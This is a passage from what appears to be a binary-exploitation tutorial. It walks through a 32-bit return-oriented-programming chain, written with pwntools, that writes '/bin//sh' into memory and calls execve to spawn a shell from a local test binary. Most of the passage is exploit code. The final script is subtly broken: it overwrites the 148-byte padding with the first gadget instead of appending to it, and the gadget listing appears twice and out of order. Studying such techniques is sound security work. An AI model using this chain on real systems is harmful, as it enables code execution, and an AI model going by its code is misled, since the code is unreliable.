 ```
p += pack('<I', 0x080546db) 		# mov dword ptr [edx], eax ; ret | And we write "//sh" just after "/bin".

p += pack('<I', 0x0806ed1a) 		# pop edx ; ret
p += pack('<I', 0x080ea008) 		# In edx, we put the address of .data + 8, so after the string "/bin//sh"

p += pack('<I', 0x08049323) 		# xor eax, eax ; ret

p += pack('<I', 0x080546db) 		# mov dword ptr [edx], eax ; ret | And we make sure that this location contains 0x00 to end the string

p += pack('<I', 0x080481c9) 		# pop ebx ; ret
p += pack('<I', 0x080ea000) 		# In ebx, we put the address of the beginning of .data, which contains "/bin//sh" followed by null bytes

p += pack('<I', 0x080de7ad) 		# pop ecx ; ret
p += pack('<I', 0x00000000) 		# We set ecx to 0

p += pack('<I', 0x0806ed1a) 		# pop edx ; ret
p += pack('<I', 0x00000000) 		# We set edx to 0

p += pack('<I', 0x08049323) 		# xor eax, eax ; ret

for i in range(11):			        # In order to have eax = 11, we loop 11 times
	p += pack('<I', 0x0804812c)	    # inc eax ; ret

p += pack('<I', 0x0806c985) 		# int 0x80
```

Remember, however, that this sequence of gadgets, called **ropchain**, is initiated when the function returns. So the first instruction of this **ropchain** must overwrite the `EIP` save of the calling function.

We've seen in detail in various articles how to find the size of the buffer to allocate before overwriting the `EIP` backup, and in my case it's a 148 byte buffer. So my exploit looks like this in python, using `pwntools` :
```
#coding: utf-8

from pwn import *
from struct import pack

r = process("./rop")

p = "A"*148

p =  pack('<I', 0x0806ed1a) 		# pop edx ; ret
p += pack('<I', 0x080ea000) 		# In edx, we put the address of the beginning of .data

p += pack('<I', 0x080b8056) 		# pop eax ; ret
p += '/bin'				            # In eax, we put the string "/bin"

p += pack('<I', 0x080546db) 		# mov dword ptr [edx], eax ; ret | This allows to write "/bin" in .data

p += pack('<I', 0x0806ed1a) 		# pop edx ; ret
p += pack('<I', 0x080ea004) 		# In edx, we put the address of .data + 4 to provide "//sh"

p += pack('<I', 0x080b8056) 		# pop eax ; ret
p += '//sh'				            # We put "//sh" in eax

p += pack('<I', 0x080546db) 		# mov dword ptr [edx], eax ; ret | And we write "//sh" just after "/bin".
```